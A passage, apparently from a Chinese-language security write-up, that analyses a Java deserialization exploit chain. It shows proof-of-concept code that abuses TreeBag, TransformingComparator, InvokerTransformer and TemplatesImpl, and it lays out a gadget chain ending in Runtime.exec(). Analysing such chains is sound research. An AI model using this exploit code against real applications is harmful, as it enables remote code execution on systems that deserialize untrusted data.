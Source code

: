 ```java
        field1.set(templatesImpl,"test");//将templatesImpl上的_name字段设置为test

        InvokerTransformer transformer=new InvokerTransformer("toString",new Class[]{},new Object[]{});
        TransformingComparator comparator =new TransformingComparator(transformer);//使用TransformingComparator修饰器传入transformer对象

        TreeBag tb = new TreeBag(comparator);
        tb.add(templatesImpl);

        Field field2 = InvokerTransformer.class.getDeclaredField("iMethodName");
        field2.setAccessible(true);
        field2.set(transformer, "newTransformer");

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("test.out"));
        outputStream.writeObject(tb);
        outputStream.close();

        ObjectInputStream inputStream=new ObjectInputStream(new FileInputStream("test.out"));
        inputStream.readObject();
    }
}

```

#### Exp构造分析

##### 利用链展示

```java
Gadget chain:
		ObjectInputStream.readObject()
			TreeBag.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
```

主要分析一下TreeBag和PriorityQueue的不同。

##### TreeBag

```java
    public TreeBag(Comparator<? super E> comparator) {
        super(new TreeMap(comparator));//1
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Comparator<? super E> comp = (Comparator)in.readObject();
        super.doReadObject(new TreeMap(comp), in);//2
    }
```
